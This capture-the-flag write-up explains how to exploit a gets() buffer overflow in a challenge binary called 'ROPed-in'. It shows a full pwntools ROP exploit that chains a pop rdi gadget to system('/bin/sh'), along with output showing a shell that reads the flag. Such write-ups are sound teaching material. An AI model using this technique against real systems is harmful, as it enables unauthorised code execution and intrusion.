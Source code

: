 # Intended Solution for ROPed-in

We are given the `vuln.c` source, and see that `gets` is used.<br/>

Hopefully the name of the chall indicates that we might want to make a ROP chain.<br/>
We have a call to `system` in the binary at 0x401863, so we should try to call system with "/bin/sh" as an argument.

```
gef➤  disas nothing_to_see_here 
Dump of assembler code for function nothing_to_see_here:
   0x0000000000401855 <+0>:     push   rbp
   0x0000000000401856 <+1>:     mov    rbp,rsp
   0x0000000000401859 <+4>:     lea    rax,[rip+0x737b0]        # 0x475010
   0x0000000000401860 <+11>:    mov    rdi,rax
   0x0000000000401863 <+14>:    call   0x404a30 <system>
   0x0000000000401868 <+19>:    nop
   0x0000000000401869 <+20>:    pop    rbp
   0x000000000040186a <+21>:    ret
End of assembler dump.
```

Conveniently, "/bin/sh" is at the end of an existing string in .rodata.
```
gef➤  info files
Symbols from "/home/justjayiguess/Documents/ctfs/pecan24/pwn/ROPed-in/vuln".
Local exec file:
        `/home/justjayiguess/Documents/ctfs/pecan24/pwn/ROPed-in/vuln', file type elf64-x86-64.
        Entry point: 0x401730
        0x0000000000400270 - 0x0000000000400290 is .note.gnu.property
        0x0000000000400290 - 0x00000000004002b4 is .note.gnu.build-id
        0x00000000004002b4 - 0x00000000004002d4 is .note.ABI-tag
        0x00000000004002d8 - 0x00000000004004e8 is .rela.plt
        0x0000000000401000 - 0x0000000000401017 is .init
        0x0000000000401018 - 0x00000000004010c8 is .plt
        0x0000000000401100 - 0x00000000004744d1 is .text
        0x00000000004744d4 - 0x00000000004744dd is .fini
        0x0000000000475000 - 0x0000000000490ab4 is .rodata
        0x0000000000490ac0 - 0x0000000000490b20 is rodata.cst32
        0x0000000000490b20 - 0x000000000049c660 is .eh_frame
        0x000000000049c660 - 0x000000000049c76f is .gcc_except_table
        0x000000000049d2f0 - 0x000000000049d308 is .tdata
        0x000000000049d308 - 0x000000000049d348 is .tbss
        0x000000000049d308 - 0x000000000049d310 is .init_array
        0x000000000049d310 - 0x000000000049d320 is .fini_array
        0x000000000049d320 - 0x00000000004a0f48 is .data.rel.ro
        0x00000000004a0f48 - 0x00000000004a0fd8 is .got
        0x00000000004a0fe8 - 0x00000000004a10b0 is .got.plt
        0x00000000004a10c0 - 0x00000000004a2ac0 is .data
        0x00000000004a2ac0 - 0x00000000004a84c8 is .bss
gef➤  x/50s 0x0000000000475000
0x475000 <_IO_stdin_used>:      "\001"
0x475002 <_IO_stdin_used+2>:    "\002"
0x475004 <dummy_bucket.6>:      ""
0x475005 <dummy_bucket.6+1>:    ""
0x475006 <dummy_bucket.6+2>:    ""
0x475007 <dummy_bucket.6+3>:    ""
0x475008:       ""
0x475009:       ""
0x47500a:       "\200?"
0x47500d:       ""
0x47500e:       "@@echo \"echo.. echo... echo....\""
0x47502f:       "sure"
0x475034:       ":o\n"
0x475038:       ":(\n"
0x47503c:       ""
0x47503d:       ""
0x47503e:       ""
0x47503f:       ""
0x475040:       "What if we `cat flag.txt`ed next to the /bin/sh"
``` 
So at the address 0x475068, we have "/bin/sh".
By linux calling conventions, we will need to pop this address into rdi. Using `ROPgadget --binary ./vuln --re "pop rdi"`, we find a nice looking gadget for this.
```
0x00000000004020d8 : pop rdi ; ret
```
So then our payload should something like:
```
AA...A (some amount of padding until we hit the return address on the stack)
0x4020d8 (address of pop rdi gadget)
0x475068 (address of "/bin/sh")
0x401863 (address of call to system)
```
This should all be padded for 64 bits, which pwntools makes pretty easy.
Either by trial and error, or using 'pattern create' in gdb, we can find that we need 40 bytes of padding before we hit the return address.
<br/>
Here is the final script:

```python
from pwn import *

# --- Payload ---
pop_gadget = p64(0x00000000004020d8)
system_gadget = p64(0x0000000000401863)

payload = b"A"*40
payload += pop_gadget
payload += p64(0x475068) # Location of "/bin/sh" in .rodata section
payload += system_gadget

# --- Executing payload locally ---
p = remote("localhost", 1357)   # not localhost in the actual chall
print(p.recv())
p.sendline(payload)
p.interactive()

```

And here is it being executed.
```
┌──(justjayiguess㉿just-jay)-[~/…/ctfs/pecan24/pwn/ROPed-in]
└─$ python3 solve.py 
[+] Opening connection to localhost on port 1357: Done
b'What if we `cat flag.txt`ed next to the /bin/sh\nhaha jk jk...\n...unless?\n\n> '
[*] Switching to interactive mode
:(

$ ls
flag.txt  vuln
$ cat flag.txt
pecan{ret_t0_s3nder_:o}
$ 
[*] Interrupted
[*] Closed connection to localhost port 1357
```
